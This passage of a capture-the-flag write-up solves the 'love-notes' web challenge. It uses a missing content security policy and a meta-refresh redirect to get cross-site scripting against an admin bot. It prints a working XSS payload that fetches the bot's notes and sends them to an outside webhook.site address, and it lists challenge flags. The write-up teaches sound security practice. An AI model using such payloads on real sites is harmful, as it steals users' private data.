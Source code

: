 `Flag: crew{now_you_solved_it_in_the_right_way_fBi4WVX1kGzPtavs}`

## love-notes

![image](https://hackmd.io/_uploads/rkJjlF0olg.png)

This challenge can be solved using the CSS injection strategy from the above challenge.  but it has more solves, so what is the difference here ?

https://github.com/threalwinky/CTF-archive/blob/ed06a34939fa2979c6335d4948ddef97160f7300/love-notes/love-notes/src/routes/notes.js#L47

The CSP is missing so we can run arbitrary JS code -> Now it turns to normal XSS challenge

![image](https://hackmd.io/_uploads/H1tbbKColx.png)


As we have XSS run in `/api/notes` but the bot will go to `/dashboard?reviewNote` so we need to redirect the bot. However, the CSP in default routes has blocked our script running. After the CTF ended, I read some writeups and find out that we can use `<meta>` tag to redirect


![image](https://hackmd.io/_uploads/H1-B9l12ee.png)

https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/Redirections#html_redirections:~:text=via%20the%20DOM-,HTML%20redirections,-HTTP%20redirects%20are

Craft a simple payload and it works. Remember to set the timeout for redirect to `1` because bot will close after 2 seconds `await sleep(2000);`

```html
<meta http-equiv="refresh" content="1; url=api/notes/c2a45b58-406c-4250-be3d-08791d3356b6">
```

![image](https://hackmd.io/_uploads/SJMuVFAsxl.png)

Now to get the bot's notes we have this XSS payload

```
<script>fetch('/api/notes').then(r=>r.text()).then(d=>(location='https://webhook.site/b1465a0c-ae75-431f-9d2d-353e5fd552e5/?'.concat(encodeURIComponent(d))))</script>
```

report with `<meta>` tag and we successfully get XSS. we can see the word `REDACTED` confirms this is the local flag.

`<meta http-equiv="refresh" content="1; url=api/notes/db6a1420-4250-4739-8ff5-30b307d7fef1">`

![image](https://hackmd.io/_uploads/BJTeW-khlx.png)

Now use the same strategy we will exploit the remote

![image](https://hackmd.io/_uploads/rkEkM-Jhee.png)

Let's decode it

![image](https://hackmd.io/_uploads/rkKQMbynle.png)

`Flag: crew{csp_trick_with_a_bit_of_css_spices_fBi4WVX1kGzPtavs}`

